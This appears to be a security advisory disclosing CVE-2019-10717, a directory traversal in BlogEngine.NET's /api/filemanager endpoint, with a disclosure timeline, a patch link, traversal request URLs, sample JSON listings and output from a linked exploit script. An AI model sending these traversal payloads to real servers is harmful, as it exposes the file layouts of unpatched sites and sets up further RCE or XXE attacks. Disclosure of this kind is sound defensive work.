

A directory traversal, CVE-2019-10717, was identified on BlogEngine.NET applications versions 3.3.7 and earlier through the `/api/filemanager` endpoint.  This issue reveals the contents of directories in the web root. Authentication is required to exploit this issue.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 24 Jun 2019

## Description

`File Manager` is used by the application to show the contents of `~/App_Data/files` and sub-directories in the UI.  Submitting requests directly to `/api/filemanager` with a modified `path` parameter reveals directory contents beyond `~/App_Data/files`.  

A request to `/api/filemanager?path=%2F..%2f..%2f` shows the contents of the web root:

~~~{.json command="https://$HOST/api/filemanager?path=%2F..%2f..%2f"}
...
  {
    "IsChecked": false,
    "SortOrder": 25,
    "Created": "5/26/2018 1:53:02 PM",
    "Name": "Web.config",
    "FileSize": "19.41 kb",
    "FileType": 1,
    "FullPath": "/../../Web.config",
    "ImgPlaceholder": "fa fa-file-o"
  },
...
~~~

The content of additional directories will be revealed by tampering with the **path** parameter:

~~~{.json command="https://$HOST/api/filemanager?path=%2F..%2f..%2fContent"}
  {
    "IsChecked": false,
    "SortOrder": 15,
    "Created": "3/30/2019 9:09:23 PM",
    "Name": "toastr.scss",
    "FileSize": "6.92 kb",
    "FileType": 1,
    "FullPath": "/../../Content/toastr.scss",
    "ImgPlaceholder": "fa fa-file-o"
  }
~~~

This issue could be exploited to verify uploaded files needed for a RCE attack or to identify files to retrieve through an XXE.

## Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10717/exploit.py>

Generates a list of all files in the web root:

~~~{command="python CVE-2019-10717.py -t 192.168.10.9"}
?path=~/App_Data/files/../../bin
/../../bin/AjaxMin.dll
/../../bin/BlogEngine.Core.dll
/../../bin/BlogEngine.Core.pdb
/../../bin/BlogEngine.Core.xml
/../../bin/BlogEngine.NET.dll
/../../bin/BlogEngine.NET.dll.config
/../../bin/BlogEngine.NET.pdb
/../../bin/BlogML.dll
/../../bin/Dynamic.dll
/../../bin/ICSharpCode.SharpZipLib.dll
/../../bin/Microsoft.Web.Infrastructure.dll
/../../bin/Microsoft.Web.XmlTransform.dll
/../../bin/Newtonsoft.Json.dll
/../../bin/Newtonsoft.Json.xml
~~~
